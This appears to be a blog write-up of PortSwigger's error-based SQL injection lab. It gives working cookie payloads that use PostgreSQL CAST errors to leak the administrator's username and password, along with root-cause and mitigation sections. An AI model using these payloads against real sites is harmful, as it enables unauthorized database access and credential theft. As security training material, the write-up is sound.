---
# ============================================================================
#  YAZI AYARLARI (front matter) — "---" çizgilerini SİLME.
#  NOT: Önizleme konteynerinin saati UTC; date satırını günün erken bir
#       saatine koy (ör. 19:00 +0300) yoksa "gelecek tarih" sayılıp yayınlanmaz.
# ============================================================================

title: "Visible error-based SQL injection"   # Yazı başlığı (tırnak içinde)
description: "PortSwigger's visible error-based SQL injection lab: when the database's verbose error messages are rendered on the page, a CAST that fails type conversion leaks the administrator's username and password directly in the error text — two requests, no brute force."   # Tek cümlelik özet; kartta ve Google'da görünür

date: 2026-11-24 19:00:00 +0300                  # Yayın tarihi (ileri tarih verirsen yazı yayınlanmaz)

categories: [Web Security]                       # _data/categories.yml içindeki alanlardan biri (renk buradan gelir)
tags: [portswigger, sql-injection, blind-sqli, error-based, postgresql, burp-suite, practitioner]   # Serbest etiketler (küçük harf, boşluksuz)

platform: PortSwigger Web Security Academy       # Üst bilgide "Platform" olarak görünür
difficulty: Practitioner                         # Apprentice / Practitioner / Expert (renkli seviye rozeti)

# --- Kapak görseli ---------------------------------------------------------
# Tüm SQL injection yazıları aynı kategori kapağını paylaşır.
image:
  path: /posts/images/sql-injection-cover.webp
  alt: "Visible error-based SQL injection — lab cover"

# --- Güncelleme tarihi (İSTEĞE BAĞLI) --------------------------------------
# last_modified_at: 2026-11-24 19:00:00 +0300
---

<!-- ==========================================================================
     NASIL DÜZENLERİM? (bu blok ekranda GÖRÜNMEZ, sadece sana not)

     Köşeli parantezli [...] yerleri kendi cümlelerinle (İngilizce) değiştir.

     BAŞLIK:  ## / ###    METİN: **kalın** *italik* `kod`    LİSTE: "- " / "1. "
     LİNK:    [metin](https://adres)      TUŞ: <kbd>Ctrl</kbd> + <kbd>R</kbd>
     GÖRSEL:  
              - Yol /posts/images/... ile başlar; tırnaktaki metin alt açıklama olur
              - Dosya adlarına laba özel önek ver (sqli-verr-...), yoksa çakışır
              - DİKKAT: görsel açıklamasında "|" (pipe) KULLANMA; tablo sanılır
     KOD:     ```sql ... ```  (diller: http, bash, sql, text)
     KUTULAR: satır altına {: .note} / {: .tip} / {: .warn}
========================================================================== -->

## Overview

The last two labs made us *earn* every bit. In [conditional responses](/blog/blind-sql-injection-conditional-responses/) we watched a "Welcome back" message blink on and off; in [conditional errors](/blog/blind-sql-injection-conditional-errors/) we forced a `500` with a divide-by-zero. Either way the database never told us anything directly — we reconstructed each secret one yes/no answer at a time, dozens of requests per character.

This lab is a different animal. The application doesn't just leak a *status* when the query breaks — it renders the **actual database error message** on the page, verbatim. And a verbose error message can be made to **contain the data we're after**. Instead of asking "is this character an `x`?" 36 times, we ask the database to convert a password into an integer, let the conversion fail, and read the password straight out of the complaint:

```text
ERROR: invalid input syntax for type integer: "cjhhfwtdqvcfhxbafcb2"
```

That is the whole lab in one line. This instance is **PostgreSQL**, and the `CAST` trick below is its native way of turning a value we can't `SELECT` into a value we can *read in an error*.

> Only test on systems you own or are explicitly authorised to test, such as PortSwigger Web Security Academy labs.
{: .warn}

## The lab

**Goal:** The tracking cookie is vulnerable to SQL injection, but the query results are not returned. The application *does* display verbose error messages. There is a `users` table with `username` and `password` columns and an `administrator` user. Trigger a conversion error that leaks the administrator's password, then log in.



## Recon — the error is on the page

The injection point is the `TrackingId` cookie again. In Burp Repeater, append a single quote to break out of the string literal:

```sql
TrackingId=N3UWMJGb1zE4vBON'
```



A `500` — the unbalanced quote broke the query. Crucially, this app doesn't swallow the error: it writes the database's own message into the page body. That is what *visible* error-based means, and it changes the strategy completely. We don't need a boolean oracle; we need to craft an error whose **text** carries our data.

Comment out the rest of the original query so our injection sits in a valid statement again, and the page returns to `200`:

```sql
TrackingId=N3UWMJGb1zE4vBON'--
```



## Exploitation

### Step 1 — get a valid boolean context with CAST

PostgreSQL's `CAST(value AS int)` throws a descriptive error when the value isn't a valid integer — that's the mechanism we'll weaponise. But first the injected SQL has to be *syntactically* valid. A bare `AND CAST(...)` fails, because `AND` expects a boolean and we've handed it an integer:

```sql
TrackingId=N3UWMJGb1zE4vBON' AND CAST((SELECT 1) AS int)--
```



Wrap it in a comparison (`1=CAST(...)`) so the whole thing is a proper boolean expression, and the statement runs cleanly:

```sql
TrackingId=N3UWMJGb1zE4vBON' AND 1=CAST((SELECT 1) AS int)--
```



Now the scaffolding is in place: a valid statement with a `CAST` we control. Everything from here is about *what* we feed into that cast.

### Step 2 — swap in a subquery (and tame the row count)

Replace the harmless `SELECT 1` with a `SELECT` against the `users` table. Selecting a column with no row limit returns **many** rows, which is itself an error — a subquery used as a value must return exactly one row:

```sql
TrackingId=N3UWMJGb1zE4vBON' AND 1=CAST((SELECT username FROM users) AS int)--
```



Add `LIMIT 1` so the subquery yields a single value. Now the only thing left to go wrong is the `CAST` itself — and that's exactly what we want:

```sql
TrackingId=N3UWMJGb1zE4vBON' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```



### Step 3 — read the data out of the error

The username is text, so casting it to `int` fails — and PostgreSQL's verbose error quotes the offending value right back at us. The page shows the leaked username directly:



```text
ERROR: invalid input syntax for type integer: "administrator"
```

That confirms the technique end to end. Point the same cast at the **password** column:

```sql
TrackingId=N3UWMJGb1zE4vBON' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```



And the password falls straight out of the error — no brute force, no per-character loop:



```text
ERROR: invalid input syntax for type integer: "cjhhfwtdqvcfhxbafcb2"
```

{: .tip}
> `LIMIT 1` only ever shows the *first* row's value. To walk the table — multiple users, or a value longer than the error truncates — add `OFFSET 1`, `OFFSET 2`, … to step through rows, or `SUBSTRING(...)` to page through a long string. Here one row and one request per column is all it takes.

### Step 4 — log in

Use the leaked credentials on the normal login form:



The lab is solved:



## Why this is faster than blind

The two previous labs needed an *oracle* — a single bit of yes/no feedback — so every character cost a fistful of requests (up to 36 in Sniper, ~6 with binary search). Here the error message is a **data channel**, not a one-bit signal. Each failed cast hands back the entire value, so the username and password took **one request each**. Verbose, reflected error messages collapse a blind attack into an almost-direct read.

## Root cause

Two mistakes stack up, same as the blind labs — plus a third that makes this one trivial:

```sql
-- Vulnerable: the cookie value is concatenated into the query
"SELECT * FROM tracking WHERE id = '" + trackingId + "'"
```

1. The cookie is concatenated into the query, so `'` breaks out and the rest becomes SQL.
2. The application returns a differentiated error (`500`) instead of a uniform response.
3. **It renders the database's verbose error message in the page** — so the error isn't just a signal, it's a readable leak of whatever we trick the engine into printing.

## Mitigation

- **Parameterized queries** are the root fix — a bound cookie value can never break out of the string or reach a `CAST`.

```sql
-- Safer: the value is bound, not concatenated
SELECT * FROM tracking WHERE id = ?
```

- **Never show database errors to users.** Log the detail server-side and return a generic, uniform error page (and status). A verbose, reflected error message is what turned this from blind into a direct read.
- **Don't store passwords in plaintext** — a salted hash (bcrypt/argon2) makes even a direct leak worthless.
- **Least privilege:** the tracking query's account has no business reading the `users` table.

## Key takeaways

- *Visible* error-based injection means the database's error message is rendered on the page — so the goal shifts from building an oracle to crafting an error whose **text** carries your data.
- On PostgreSQL, `CAST((SELECT ...) AS int)` fails type conversion and quotes the value back: `invalid input syntax for type integer: "<value>"`.
- Keep the injected statement valid first (`1=CAST(...)` for a boolean context, `LIMIT 1` for a scalar subquery); the *only* error left should be the one you want.
- A reflected error is a data channel, not a one-bit oracle — username and password came out in one request each, not hundreds.
- Fix with parameterized queries **and** generic error handling: the leak existed because the raw database error reached the user.
